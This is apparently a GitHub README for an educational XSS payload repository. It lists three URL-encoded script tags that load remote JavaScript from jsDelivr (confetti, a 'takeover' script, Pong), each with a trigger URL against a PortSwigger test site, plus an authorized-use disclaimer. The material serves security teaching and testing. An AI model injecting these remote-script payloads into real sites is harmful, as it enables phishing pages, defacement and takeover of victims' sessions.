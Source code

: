 # XSS Payloads for Educational Purposes

<p align="center">

  <!-- Status / Purpose -->
  <img src="https://img.shields.io/badge/Status-Educational-blueviolet?style=for-the-badge&logo=github" alt="Educational" />
  <img src="https://img.shields.io/badge/Use-Authorized_Testing_Only-red?style=for-the-badge&logo=handshake" alt="Authorized Testing Only" />
  <img src="https://img.shields.io/badge/Focus-XSS%20Payloads-orange?style=for-the-badge&logo=javascript" alt="XSS Payloads" />

  <!-- Ethical / Legal -->
  <img src="https://img.shields.io/badge/Responsible_Disclosure-Required-critical?style=for-the-badge&logo=checkmarx" alt="Responsible Disclosure Required" />
  <img src="https://img.shields.io/badge/License-MIT-green?style=for-the-badge&logo=open-source-initiative" alt="MIT License" />

  <!-- Technologies -->
  <img src="https://img.shields.io/badge/Language-JavaScript-yellow?style=for-the-badge&logo=javascript" alt="JavaScript" />
  <img src="https://img.shields.io/badge/Hosted_on-jsDelivr-lightgrey?style=for-the-badge&logo=cdn" alt="jsDelivr" />

  <!-- Community / Reference -->
  <a href="https://portswigger.net/web-security/cross-site-scripting">
    <img src="https://img.shields.io/badge/Lab-OWASP/PortSwigger-blue?style=for-the-badge&logo=bugcrowd" alt="PortSwigger Labs" />
  </a>
  <a href="https://owasp.org/www-community/xss/">
    <img src="https://img.shields.io/badge/Reference-OWASP_XSS-orange?style=for-the-badge&logo=owasp" alt="OWASP XSS" />
  </a>

</p>


###  Cross Site Scripting ( XSS ) Vulnerability  

### Overview : XSS is a web security flaw that allows an attacker to inject and execute malicious scripts in a victim’s browser by exploiting insufficient input/output encoding or sanitization; it can lead to account takeover, session theft, UI redress, or delivery of phishing/malware.

---

## IMPORTANT: SECURITY & ETHICAL USE DISCLAIMER

This repository contains XSS (Cross-Site Scripting) payloads for educational and ethical security testing purposes only.

### Authorized Use Cases:
- Security research and education
- Penetration testing on systems you own or have explicit written permission to test
- Developing and testing defensive security measures

### Strictly Prohibited:
- Any unauthorized testing on websites or systems you do not own
- Any malicious or illegal activities
- Use in a manner that violates any laws

**By using this repository, you agree to use this information responsibly. The maintainer is not responsible for any misuse or damage.**

---

### Remote XSS Payload Examples

These payloads demonstrate how attackers can load external JavaScript files from remote servers to execute malicious code.

### How Remote XSS Payloads Work:
- The payload uses `<script>` tags with `src` attributes pointing to external JavaScript files
- When the vulnerable page renders, the browser fetches and executes the remote script
- The scripts are hosted on CDN services like jsDelivr, making them accessible from anywhere
  
- This technique allows attackers to:
  
  - Bypass length restrictions (small payload loads large script)
  - Update malicious code without changing the initial payload
  - Load complex libraries and frameworks for advanced attacks

## Payload Examples

### Payload 1
```
%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/confetti_nl.js%3E%3C/script%3E
```
Payload triggered on portswigger test XSS site:
```
https://subdomain1.portswigger-labs.net/xss/xss.php?x=%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/confetti_nl.js%3E%3C/script%3E&context=html
```
- **Action:** This payload loads a remote JavaScript file that creates visual effects (confetti)
- **Impact:** Demonstrates how XSS can modify page content and user experience
- **Host:** Uses jsDelivr CDN to serve the script directly from this GitHub repository
- **Purpose:** Shows non-destructive payloads used for proof-of-concept testing


### Payload 2
```
%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/takeover.js%3E%3C/script%3E
```

Payload triggered on portswigger test XSS site:
```
https://subdomain1.portswigger-labs.net/xss/xss.php?x=%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/takeover.js%3E%3C/script%3E&context=html
```
- **Behavior:** Loads a script that demonstrates complete page takeover capabilities
- **Examples:** Could include functionality like redirecting users, displaying fake login forms, or defacing content
- **Impact:** Shows the severe impact of XSS vulnerabilities when combined with remote script loading
- **Note:** The actual malicious logic resides on the remote server, not in the initial payload


### Payload 3
```
%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/pong.js%3E%3C/script%3E
```

Payload triggered on portswigger test XSS site:
```
https://subdomain1.portswigger-labs.net/xss/xss.php?x=%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/pong.js%3E%3C/script%3E&context=html
```
- **Action:** Loads an interactive Pong game script onto the vulnerable page
- **Demonstrates:** How XSS can inject complex, interactive content
- **Observation:** Shows that even "benign" payloads use the same vulnerability chain as malicious ones
- **Takeaway:** Highlights the importance of proper input validation regardless of payload intent




